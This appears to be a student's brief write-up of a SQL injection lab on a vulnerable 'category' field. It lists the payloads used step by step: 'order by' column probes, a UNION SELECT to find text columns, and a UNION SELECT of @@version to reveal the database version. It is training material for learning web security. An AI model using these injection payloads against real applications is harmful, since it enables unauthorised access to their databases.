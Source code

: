 Lab 08

The end goal is to display the DB Version

Analysis:
Vulnerable field is the category field (accessories)

(1). Find number of columns 
' order by 1--

I got an error doing this so the next step was to use the # as a comment to test.

After doing this I was successful:
' order by 1#
'order by 2#
'order by 3# -> server error
I then did 

(2) Determine the type of data 
I entered in 
'UNION SELECT 'a', 'b'# successfully and received 'a' and 'b' as feedback.

Lastly, I attempted to retrieve the DB version with the following:
' UNION SELECT @@version, NULL#

This successfuly retrieved the db version
